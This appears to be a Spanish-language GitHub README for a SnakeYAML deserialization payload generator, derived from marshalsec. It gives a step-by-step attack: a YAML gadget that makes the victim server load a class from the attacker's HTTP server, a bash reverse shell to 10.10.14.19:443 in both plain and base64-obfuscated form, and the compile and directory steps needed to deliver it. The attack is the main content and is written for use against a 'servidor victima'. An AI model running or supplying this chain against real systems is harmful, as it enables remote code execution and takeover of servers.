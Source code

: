 # yaml-parser-payload

Payload para ejecutar una reverse shell en un servidor yaml en java.

Esto lo pondremos en el servidor victima para que nos ejecute nuestro payload  con nuestra r_shell.
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://my_python_server/"]
  ]]
]
```
En nuestra terminal compartiremos un server con python para que se conecte nuestra victima hacia nosotros asi cargar el payload.
```bash
sudo python3 -m hhtp.server 80
```
Editaremos nuestro archivo AwesomeScriptEngineFactory.java
y añadiremos nuestra reverse_shell en bash pero codificado en base64 lo codificaremos en esta pagina.
```reverse
bash -i >& /dev/tcp/10.10.14.19/443 0>&1

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOS80NDMgMD4mMQ==}|{base64,-d}|{bash,-i}
```
in this page encode reverse shell  in base64 http://www.jackson-t.ca/runtime-exec-payloads.html

lo compilamos :
necesitaremos jdk instalado ojo!!!!
------bash console or cmd -----
```bash
javac AwesomeScriptEngineFactory.java
```
Nos generara el archivo 'AwesomeScriptEngineFactory.class'. y lo introduciremos en la carpeta h1dr0.

La estructura del Payload tiene que ser asi para que el servidor haga la peticion y encuetre el archivo. 
```tree
 exploit /
  |-->      META-INF/services/javax.script.ScriptEngineFactory dentro de este archivo escribir esto -> h1dr0.AwesomeScriptEngineFactory/
  |-->      h1dr0/AwesomeScriptEngineFactory.class
```




A tiny project for generating payloads for the SnakeYAML deserialization gadget (taken from https://github.com/mbechler/marshalsec):

thanks @marshalsec.


